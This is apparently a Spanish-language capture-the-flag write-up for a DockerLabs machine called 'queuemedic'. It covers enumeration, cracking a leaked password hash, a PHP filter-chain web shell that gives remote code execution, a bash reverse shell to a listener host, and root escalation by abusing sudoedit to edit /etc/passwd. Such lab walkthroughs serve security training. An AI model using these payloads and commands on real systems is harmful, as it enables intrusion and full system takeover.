 nmap:  80

![image](https://github.com/user-attachments/assets/2efcdff6-8aab-4844-9d4b-9df84354303e)

---
vamos a la pagina principal y hay un login 

![image](https://github.com/user-attachments/assets/ceb080c3-198f-466f-aeb2-f36ca68675c2)

hacemos un gobuster y nos da algunos que son llamativos

![image](https://github.com/user-attachments/assets/6db3b8c6-b51c-4cfd-b77c-1d350db89b1f)

aquí http://172.17.0.2/patients.php nos da una pagina con un calendario básico

![image](https://github.com/user-attachments/assets/008ad910-5b3d-4d83-ad24-c07126d5aaf7)

al /backup nos descargamos el zip y lo descomprimimos. nos da:

![image](https://github.com/user-attachments/assets/2f6d5bbe-ee79-48d9-869b-f85a7a42c6fe)

ahora entramos a una carpeta que nos dio llamada /db/ y nos da un txt que dentro hay un nombre o dos junto a una posible contraseña.
> castrojessica

![image](https://github.com/user-attachments/assets/feec5145-33e9-4e84-93c6-54fc19abe3f1)


utilizamos esta herramienta https://github.com/urbanadventurer/username-anarchy
para que nos genere contraseñas basadas en los nombres encontrados

dentro de la carpeta viendo el manual, creamos: nano username
> jessica castro

guardamos

ahora hacemos:

    ./username-anarchy -i username > users

y nos dará: 

![image](https://github.com/user-attachments/assets/f63b8c97-7470-4e27-87af-f8f4135137af)

también podemos ver que en el archivo "clinic_queuing_db.db " sale al contraseña 
y podemos hacerlo mas fácil  
pasamos la contraseña un hash 

>  $2y$10$iDHQftaCCEPmdPj/11E3DOGiw3AsOPf6uYBpEAuh8J19oeGuloJIK

  la pasamos a hash, nano hash y pegamos la contraseña
 ahora 
     
     john --wordlist=wordlist.txt hash
 
 y nos da la contraseña: 
 > j.castro
 
 ![[crack.jpg]]
 
ahora vamos al login.php e ingresamos las credenciales:
> jessica / j.castro

y estamos dentro del panel
![[dockerlabs/dificil/queuemedic/panel1.png]]

tomamos el nombre principal de la pagina que dice:  # Clinic Queuing System

buscamos un exploit y encontramos: https://www.exploit-db.com/exploits/52008
que vemos que podemos filtrar por php:  py filter_chain 
![[filtro.png]]

buscamos un exploit en github: https://github.com/synacktiv/php_filter_chain_generator/blob/main/php_filter_chain_generator.py

ahora copiamos el código  

creamos:
> nano filter.py / pegamos el código guardamos


![[dockerlabs/dificil/queuemedic/codigo1.png]]

> ahora python3 filter.py

ahora  en el terminal colocamos:
> python3 filter.py --chain '<?php echo shell_exec($_GET["cmd"]);?>'

nos dará un código que lo copiamos
![[dockerlabs/dificil/queuemedic/codigo2.png]]


y colocamos el buscador así:  172.17.0.2/?cmd=ls -la&page= y aquí colocamos el código que nos dio  que es vulnerable a ejecución de código remoto (RCE)
![[dockerlabs/dificil/queuemedic/codigo3.png]]

ahora la URL debe quedar así:  172.17.0.2/?cmd=bash -c 'bash -i >%26/dev/tcp/172.17.0.1/443 0>%261'&page= y aquí colocamos el código que nos dio

dejamos la terminal en escucha y lanzamos
![[dockerlabs/dificil/queuemedic/conexion.png]]

y estamos dentro, buscando no encontré mucho y probé con las mismas credenciales ya que no hay otro usuario aparte de jessica y root:  jessica / j.castro
![[jessica.png]]

ahora al hacer sudo -l aparece:  (root) NOPASSWD: sudoedit /var/www/html/*

para escalar encontré: 
![[sudoedit.png]]

o sea que puedo modificar el archivo, encontré este comando para poder dar el permiso de modificar por decir asi:

    export EDITOR='nano -- /etc/passwd'

ahora editamos:
  
    sudoedit /var/www/html/index.pgsd

le quitamos la x a root 
![[dockerlabs/dificil/queuemedic/root1.png]]
![[pasos1.png]]
colocamos su root y somos root!
![[suroot.png]]
muchas gracias! 
